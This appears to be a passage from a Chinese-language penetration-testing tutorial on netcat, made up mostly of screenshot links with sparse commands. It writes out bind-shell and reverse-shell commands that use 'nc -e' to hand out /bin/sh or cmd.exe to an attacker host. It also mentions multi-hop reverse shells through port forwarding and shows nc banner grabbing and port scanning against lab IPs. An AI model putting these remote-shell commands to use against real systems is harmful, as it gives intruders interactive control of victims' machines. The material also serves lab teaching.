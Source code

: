   受害:nc -ldp 1234 -e /bin/sh //linux

  nc -ldp 1234 -e c:\windows\system32\cmd.exe //windows

  攻击:nc 192.168.76.132 1234 //主动连接



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3v0goIIrMoa1cRV9VXxMymjqqwmicGYgQ0sFHMnibq8mib6Gr74MfwWang/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3dMWzu50C4qkblukEBTVx8u8SdnG988WibloyhyYoj7DW2hsWccxeahQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3auO9QJt0patkEsib9NwWo9cU63er9pFR9BkGOh38snVjWuOSicDZVLMw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

- 
- 
- 
- 
- 

```
反弹回会话反向:受害连接攻击攻击:nc -lvp 1234受害:nc 攻击主机IP 1234 -e /bin/shnc 攻击主机IP 1234 -e c:\windows\system32\cmd.exe
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3R3DONibxDD4BAmoI9tn7QKxtDoW1fFibXJz5nSHSmib32IFY2HISREaeg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3kabRAuBeCHzaHAOhrzgGltckZ7aDBzqldCbribGGUVNmMUMz39tVZBg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



反弹回shell

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3L9lpBhptjIYdlb8UX4MUgzlcL1VZgoXt0N7l4u6dk2Kic8B2l4cYLjg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



2.多向连接反弹shell-配合转发

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3XeqzORxwAKpficIFHKgaErAgzmfIia5DxABC2s6w41SADFicQTlo6ia2yA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3CUIxppFAFe4XicKCGchgRDCGVyJvH9Iv6vVlKUfSr4ibFYFKVsonXtJw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd32rmL32tzxhxI9c6fEc7JZPhZyWezMcWj0klnNWuMbxrrKdUEFlynuA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



直接反弹回来了shell



3.相关netcat主要功能测试

  指纹服务:nc -nv 192.168.76.143

  端口服务:nc -v -z 192.168.76.143 1-100

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ8ENx28GoiaIWzm1REOnZpd3HxVhFIcOgKZLbAmoWDC6PiayMVZlSJb42ns9MgDn50YfibDONiabIUibVQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
